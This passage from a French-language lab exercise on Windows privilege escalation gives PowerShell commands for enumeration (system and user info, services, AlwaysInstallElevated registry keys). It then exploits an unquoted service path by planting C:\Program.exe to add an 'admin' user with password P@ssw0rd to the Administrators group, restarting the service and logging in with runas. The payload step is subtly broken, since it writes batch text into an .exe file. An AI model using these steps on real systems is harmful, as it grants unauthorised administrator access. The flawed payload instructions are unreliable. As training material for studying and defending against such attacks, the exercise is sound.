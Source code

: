 2. Ouvrez PowerShell et effectuez une énumération de base :
   ```powershell
   # Informations système
   systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
   
   # Informations utilisateur
   whoami /all
   
   # Vérifier les services
   wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
   
   # Vérifier AlwaysInstallElevated
   reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   ```

3. Analysez les résultats et identifiez les vecteurs potentiels :
   - Service vulnérable avec chemin non cité
   - Politique AlwaysInstallElevated activée

#### Exercice 2: Exploitation via chemin de service non cité (20 minutes)

1. Vérifiez les permissions sur le répertoire du service :
   ```powershell
   icacls "C:\Program Files\Vulnerable Service"
   ```

2. Créez un exécutable malveillant :
   ```powershell
   # Créez un script batch simple pour démontrer l'exploitation
   @echo off > C:\Program.exe
   echo net user admin P@ssw0rd /add >> C:\Program.exe
   echo net localgroup Administrators admin /add >> C:\Program.exe
   ```

3. Redémarrez le service vulnérable :
   ```powershell
   sc stop VulnService
   sc start VulnService
   ```

4. Vérifiez que l'utilisateur a été créé :
   ```powershell
   net user admin
   ```

5. Connectez-vous en tant que nouvel utilisateur administrateur :
   ```powershell
   # Ouvrez une nouvelle session ou utilisez runas
   runas /user:admin cmd.exe
   # Mot de passe: P@ssw0rd
   ```

6. Nettoyez en supprimant l'utilisateur créé :
   ```powershell
   net user admin /delete
   ```
